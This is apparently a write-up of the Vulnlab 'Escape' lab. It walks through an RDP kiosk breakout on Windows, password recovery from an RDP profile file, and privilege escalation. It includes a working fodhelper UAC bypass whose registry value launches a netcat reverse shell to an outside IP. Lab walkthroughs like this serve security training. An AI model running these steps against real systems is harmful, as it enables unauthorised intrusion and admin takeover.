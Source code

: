# Vulnlab - Escape

## NMAP

```bash
PORT     STATE SERVICE       VERSION                            
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-23T17:04:09+00:00; +35s from scanner time.
| ssl-cert: Subject: commonName=Escape
| Issuer: commonName=Escape          
| Public Key type: rsa                     
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
```

From the scan we only have one port open which is RDP, on attempting login it's going to ask for credentials which we don't currently know 

<img src="https://i.imgur.com/lzzhWrW.png"/>

What if we try to see the login GUI, this can be done by disabling `NLA`

```bash
xfreerdp /v:10.10.73.33 -sec-nla
```

<img src="https://i.imgur.com/wSJZm25.png"/>

With this username, we'll be able to login

<img src="https://i.imgur.com/xDB40ZQ.png"/>

But we are only limited to just see this screen, meaning that we are in Kisok mode

<img src="https://i.imgur.com/0voNBrp.png"/>

Pressing the start button and using cmd or any other application didn't worked as it was restricted

<img src="https://i.imgur.com/EavpdNY.png"/>
We can however use Microsoft Edge and using `file` protocol, we can access the file system

<img src="https://i.imgur.com/s9XOnOf.png"/>

From `_admin` we can find an interesting file `profile.xml` having some encrypted password

<img src="https://i.imgur.com/wRmIQy2.png"/>

<img src="https://i.imgur.com/uaOgKnc.png"/>

I tried looking for resources to decrypt this password but there wasn't any tool to do that, we do have a tool called `BulletsPassView` which can reveal the passwords masked in bullets, on windows machine import the xml file using `Remote Desktop Plus` 

<img src="https://i.imgur.com/ZQApjtD.png"/>

And edit the profile, which will allow us to view the information in the profile, after that run bulletview, we'll get the plain text password

<img src="https://i.imgur.com/JPxUkTQ.png"/>

However, when logging to RDP with these credentials it's not going to allow that

<img src="https://i.imgur.com/hzyJONQ.png"/>
This translates to:

```
To log in remotely, you must have permission to log in through Remote Desktop Services. By default, members of the Principle Desktop Users group have this right. If your current user group does not have this permission, or if this permission has been removed from the Principle Desk user group, you must be granted this permission manually
```

So the workaround is to spawn a shell through kiosk user and then use runas to switch user, to do that we'll need to first find a way to spawn cmd and this can be done by copying `cmd.exe` in the directory where we have permission and rename it to `msedege.exe` as that's the only executable allowed in this kiosk mode

```
file:///C:/Windows/System32/cmd.exe
```

<img src="https://i.imgur.com/BFEKMkS.png"/>

<img src="https://i.imgur.com/idgA6yZ.png"/>

<img src="https://i.imgur.com/J3zX4iU.png"/>

Now using `runas`

```powershell
runas /user:Escape\admin cmd
```

<img src="https://i.imgur.com/Wkax4QS.png"/>

<img src="https://i.imgur.com/y0wv79G.png"/>

We can see here this is in administrators group but with medium mandatory level which means we have to do UAC bypass here

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force

New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Users\admin\Desktop\nc.exe 10.8.0.136 2222 -e powershell.exe" -Force

 Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

<img src="https://i.imgur.com/cZ2svdS.png"/>

We'll receive a reverse shell with admin with all privileges.

<img src="https://i.imgur.com/8MqeNJZ.png"/>
<img src="https://i.imgur.com/LRRDNZq.png"/>
 But this shell didn't last long and got terminated, not sure why but I wasn't able to trigger it again as whenever I tried setting the property value it terminated powershell process

 <img src="https://i.imgur.com/upSCoAt.png"/>

Since we already have GUI we can just use  `Start-Process powershell -Verb runAs` (which I didn't know we could do that)

<img src="https://i.imgur.com/94C3BUg.png"/>

Having these privileges back again we are basically a local admin on the machine.
# References

- https://blog.nviso.eu/2022/05/24/breaking-out-of-windows-kiosks-using-only-microsoft-edge/
- https://www.nirsoft.net/utils/bullets_password_view.html
- https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692
- https://superuser.com/questions/55809/how-to-run-program-from-command-line-with-elevated-rights
